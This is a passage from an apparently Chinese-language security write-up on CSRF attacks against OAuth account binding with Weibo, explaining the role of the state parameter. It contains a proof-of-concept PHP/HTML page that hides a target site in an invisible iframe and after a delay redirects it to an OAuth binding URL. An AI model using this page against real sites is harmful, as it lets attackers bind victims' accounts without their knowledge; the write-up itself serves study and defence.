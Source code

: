 ```php
?>

<html>
<head>
<style type="text/css"> 
.testframe {
	height: 100%;
} 
iframe {
	height: 100%;
	width: 100%;
	border: 0;
	margin: 0;
	padding: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
    filter: alpha(Opacity=0); /*提供给IE浏览器8之前的*/
    -moz-opacity: 0; /*提供给火狐浏览器的*/
    -webkit-opacity: 0; /*提供给webkit内核的*/
    -khtml-opacity: 0; /*提供给KHTML内核的*/
    -ms-filter: "progid:DXImageTransform.Microsoft.Alpha(Opacity=0)"; /*提供给IE8之后的*/
    opacity: 0;
    /*控制不透明度的属性，兼容各大浏览器*/
}
</style>
</head>
<body>
<div class="testframe">
	<iframe id="test0" src="<?php echo $url;?>"></iframe>
</div>
<script>
function loadsrc(){
    document.getElementById("test0").src="https://gh0st.cn/oauth/weibo/redirect";
}
setTimeout("loadsrc()",2000);
</script>
</body>
</html>
```

#### 场景2.攻击步骤：

有些网站可能是post请求限制了referer或者根本没有跳转的请求而是直接进入了微博的绑定界面，因为state参数的原因导致根本无法以这个绑定页面为链接的形式去做攻击~

可能有很多朋友就有疑问了，为什么我老是提到state参数？这个参数是干什么用的呢？这里参考下微博的OAuth2.0接口的开发文档：

http://open.weibo.com/wiki/Oauth2/authorize

![0x09.png](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x09.png)

是防止CSRF的，也就是说在这里如果绑定的链接是如下这样子的：

![0x10.png](https://vulkey.oss-cn-hangzhou.aliyuncs.com/2018-04-28/0x10.png)
